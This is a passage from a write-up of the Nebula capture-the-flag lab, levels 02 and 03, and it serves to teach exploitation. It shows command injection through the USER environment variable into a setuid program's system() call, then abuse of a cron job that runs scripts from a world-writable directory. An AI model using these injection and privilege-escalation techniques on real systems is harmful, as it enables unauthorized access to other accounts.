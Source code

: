 ```c

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

 asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

This is very similar to _Level01_ but this time they seem to have patched the system call. However this time they've added something to the statement that we have control over. Look at line 22 and think about how we can make use of that.

```sourceCode
level02@nebula:/home/flag02$ export USER='"";getflag'
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo "";getflag is cool")

You have successfully executed getflag on a target account
```

## Level 03

> Check the home directory of flag03 and take note of the files there.
>
> There is a crontab that is called every couple of minutes.

So first things first let's take a look at that crontab

```sourceCode
level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

Ok, so it will take a shell script in the `writeable.d` directory, execute it and then delete it. Luckily the directory is world read/write, allowing us to add out own script. As the crontab will run the script as the `flag03` user, we might as well just run the `getflag` from it. We'll capture some output to make sure it worked.

```sourceCode
level03@nebula:/home/flag03$ cat writeable.d/getit
/bin/getflag > /tmp/gotit
# wait for the script to run....
level03@nebula:/home/flag03$ cat /tmp/gotflag
You have successfully executed getflag on a target account
```

